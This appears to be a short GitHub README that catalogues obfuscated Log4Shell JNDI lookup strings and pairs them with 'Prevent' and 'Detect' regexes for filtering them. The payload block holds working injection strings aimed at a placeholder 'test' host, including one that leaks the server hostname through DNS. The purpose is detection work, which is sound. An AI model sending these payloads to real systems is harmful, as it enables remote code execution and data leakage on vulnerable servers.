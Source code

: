 ## Log4j2-Obfucation

Current Log4Shell obfuscation techniques observed or reported (Also works on rmi, dns, ldaps)

# Obfuscation

```

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://test/a}

${${lower:j}${lower:n}${lower:d}${lower:i}:${lower:l}${lower:d}${lower:a}${lower:p}://${upper:t}est/a} 

${${env:env_name:-j}${env:env_name:-n}${env:env_name:-d}${env:env_name:-i}${env:env_name:-:}${env:env_name:-l}${env:env_name:-d}${env:env_name:-a}${env:env_name:-p}${env:env_name:-:}//test/a} (Also works on rmi, dns, ldaps)

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://test/a}

${${::-j}${${::-n}${${::-d}${${::-i}:${::-l}${${::-d}${${::-a}${${::-p}://${hostname}.test/a}

${jndi:ldap://{$date:YYYYMMddHHmmss}.test/a}

```

# Regex

Pattern match to capture all of above

Prevent
```

.*\$\{.{0,25}[jJ].{0,25}[nN].{0,25}[dD].{0,25}[iI].{0,150}:.{0,5}\/.*\}

```
Detect
```

.*\$\{(\$\{.+[jJ]|[jJ])\}*(\$\{.+[nN]|[nN])\}*(\$\{.+[dD]|[dD])\}*(\$\{.+[iI]|[iI])\}*(\$\{.+\:|\:)\}*.*\/.*\}

```

